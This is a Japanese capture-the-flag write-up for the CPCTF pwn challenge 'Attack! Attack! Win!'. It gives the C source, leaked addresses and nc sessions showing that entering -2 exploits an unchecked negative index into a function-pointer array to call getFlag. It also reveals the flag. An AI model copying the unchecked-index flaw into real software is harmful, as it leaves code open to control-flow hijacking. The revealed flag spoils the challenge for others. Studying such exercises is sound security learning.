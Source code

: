 # Attack! Attack! Win!:Pwn:10pts
flagを盗まれてしまいました……  
敵を倒して取り返してきてもらえませんか？  
`nc attack_attack_win.web.cpctf.space 30005`  

[配布ファイル](attack_attack_win.zip)  

**Hint**  
HocusPocus を選択するとメモリリークが起きます。  
winとAttackの間には24の差があるようです。  
また、AttackとHeal、HealとHocusPocusの間には8の差があります。  
ここから、1大きい数字を入力すると8大きいコマンドが実行されているのではないか？と推測できます。  
つまり、winを実行するためにはAttackよりも3小さい数字、すなわち-2を入れればよいはずです。  
実際に入力してみましょう。  

# Solution
接続先とソースが与えられる。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>

int enemyHp, playerHp;
void (*win)();
void (*enemyCommand)();
void (*playerCommands[3])();

void init(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
	alarm(60);
}

void getFlag(){
	puts("You got the flag!");
	system("cat flag.txt");
}

void hocusPocus(){
	puts("Memory leak!");
	printf("Attack     : %p\n", &playerCommands[0]);
	printf("Heal       : %p\n", &playerCommands[1]);
	printf("HocusPocus : %p\n", &playerCommands[2]);
	printf("win        : %p\n\n", &win);
}

void attack(){
	enemyHp -= 40;
	if(enemyHp < 0){
		enemyHp = 0;
	}
}

void heal(){
	playerHp += 30;
	if(playerHp > 100){
		playerHp = 100;
	}
}

void enemyAttack(){
	playerHp -= 50;
	if(playerHp < 0){
		playerHp = 0;
	}
}

void printHp(){
	printf("YourHP:%d\nenemyHp:%d\n\n", playerHp, enemyHp);
}

void printCommands(){
	puts("1: Attack\n2: Heal\n3: Hocus Pocus\n");
}

int main(){
	int input;

	init();
	enemyHp = 100;
	playerHp = 100;
	playerCommands[0] = attack;
	playerCommands[1] = heal;
	playerCommands[2] = hocusPocus;
	enemyCommand = enemyAttack;
	win = getFlag;

	puts("\n");
	puts("Defeat the enemy to get the flag!\n\n");

	while(1){
		printHp();
		if(playerHp <= 0){
			puts("You lose...");
			break;
		}else if(enemyHp <= 0){
			win();
		}
		printCommands();

		scanf("%d", &input);
		printf("\n");

		if(input > 3){
			puts("Nothing happens.\n");
		}else{
			playerCommands[input - 1]();
		}
		enemyCommand();
	}
	return 0;
}
```
`attack`、`heal`、`hocusPocus`なるコマンドがあり、関数を呼び出す形で実現されている。  
`win`(`getFlag`)が用意されているので、そちらを呼び出せばゴールとなる。  
`attack`、`heal`は決まった動作で、悪用可能ではなさそうだ。  
`hocusPocus`はアドレスを表示してくれる。  
接続してアドレスを見る。  
```bash
$ nc attack_attack_win.web.cpctf.space 30005


Defeat the enemy to get the flag!


YourHP:100
enemyHp:100

1: Attack
2: Heal
3: Hocus Pocus

3

Memory leak!
Attack     : 0x55da79752070
Heal       : 0x55da79752078
HocusPocus : 0x55da79752080
win        : 0x55da79752058
~~~
```
`win`は`attack`の0x18前にいることがわかる。  
ここで、`playerCommands[input - 1]();`の箇所で、`input`にチェックがないため負の数を指定できることに気づく。  
0x18前に`win`がいるので`playerCommands[-3]();`となるよう`-2`を入力してやる。  
```bash
$ nc attack_attack_win.web.cpctf.space 30005


Defeat the enemy to get the flag!


YourHP:100
enemyHp:100

1: Attack
2: Heal
3: Hocus Pocus

-2

You got the flag!
CPCTF{4_c1eVeR_4nd_p4CifI5t_7hi3F}
~~~
```
`win`が呼び出され、flagが得られた。  

## CPCTF{4_c1eVeR_4nd_p4CifI5t_7hi3F}